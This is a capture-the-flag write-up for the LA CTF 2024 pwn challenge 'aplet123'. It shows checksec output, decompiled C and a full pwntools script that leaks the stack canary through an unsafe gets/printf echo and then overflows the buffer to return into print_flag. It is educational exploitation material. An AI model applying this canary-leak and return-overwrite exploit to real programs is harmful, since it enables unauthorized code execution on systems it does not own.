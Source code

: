 ```yaml
---
title: aplet123
date:  2024-02-25T20:00:00+02:00
description: Writeup for aplet123 [LA CTF 2024]
author: pinebel
tags:
- pwn
draft: false
---
```


## Challenge Description:

bliutech: Can we get ApletGPT?
me: No we have ApletGPT at home.
ApletGPT at home:

## Intuition 

We are given an ELF 64-bit binary with the following protections:
```bash 

$ checksec --file=aplet123
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols        No    0               3               aplet123

```

We can see that it has canary and No PIE, after opening it in Ghidra we can see that we have three options from which we can choose, the only one that actually leaks something is the first option which can be entered if our input has 'i'm' in it. In Ghidra we can also see a print_flag function, so this seems like a ret2win where we first need to leak the canary and then call the print_flag function.



```C
undefined8 main(void)

{
  int iVar1;
  time_t tVar2;
  char *pcVar3;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  puts("hello");
  while( true ) {
    while( true ) {
      while( true ) {
        gets(local_58);
        pcVar3 = strstr(local_58,"i\'m");
        if (pcVar3 == (char *)0x0) break;
        printf("hi %s, i\'m aplet123\n",pcVar3 + 4);
      }
      iVar1 = strcmp(local_58,"please give me the flag");
      if (iVar1 != 0) break;
      puts("i\'ll consider it");
      sleep(5);
      puts("no");
    }
    iVar1 = strcmp(local_58,"bye");
    if (iVar1 == 0) break;
    iVar1 = rand();
    puts(*(char **)(responses + ((ulong)(long)iVar1 % 0x21) * 8));
  }
  puts("bye");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

```
The exploit for this challenge is to first leak the canary with the first option and then call the print_flag function. I also leaked the addresses of the print_flag function even though this wasn't necessary because it had No PIE.

### Solution

The solution is pretty straightforward, it's a ret2win with the need to leak the canary. 

```py
from pwn import *

gdbscript = """
b *main
c
"""

#target = gdb.debug("./aplet123",gdbscript=gdbscript)
#target = process("./aplet123")
target = remote("chall.lac.tf",31123)
# this is extra
main_offset = 0x401261
print_flag_offset = 0x4011e6
function_offset = main_offset - print_flag_offset

# ============================= Canary Leak =============================

padding = 69*"A" + "i'm"
#we want to leak the main address so first I'll leak the canary so we can read after the canary what mains address is
target.sendlineafter(b"hello",padding.encode())
target.recvline()
canary = target.recvline()

leaked_canary = ''
for i in range(3,10):
    if (chr(canary[i])!= ','):
        leaked_canary += canary[i].to_bytes().hex()   
    else:
        break 

# format the address
leaked_canary = "".join(reversed([leaked_canary[i:i+2] for i in range(0,len(leaked_canary),2)]))
print(hex(int(leaked_canary,16)))

# ============================= Canary Leak =============================

# No need to leak the main if we have NO pie, I still did it 
# ============================= Main Leak =============================

padding = 100*"A" + "i'm"
target.sendline(padding.encode())
main = target.recvline()

leaked_main = ''
for i in range(3,10):
    if (chr(main[i])!= ','):
        leaked_main += main[i].to_bytes().hex()   
    else:
        break 

# format the address
leaked_main = "".join(reversed([leaked_main[i:i+2] for i in range(0,len(leaked_main),2)]))
print(hex(int(leaked_main,16)))

# ============================= Main Leak =============================

main_address = int(leaked_main,16)
print(main_address,function_offset)
print_flag_address = main_address - function_offset
print(hex(print_flag_address))

# ============================= Create Payload =============================

leaked_canary += "00"
payload = 9*8*b"A" + p64(int(leaked_canary,16)) + 8*b"B" + p64(print_flag_address)
target.sendline(payload)

# gdb.attach(target)
# pause()

target.sendline(b"bye")

# ============================= Create Payload =============================

target.interactive()
```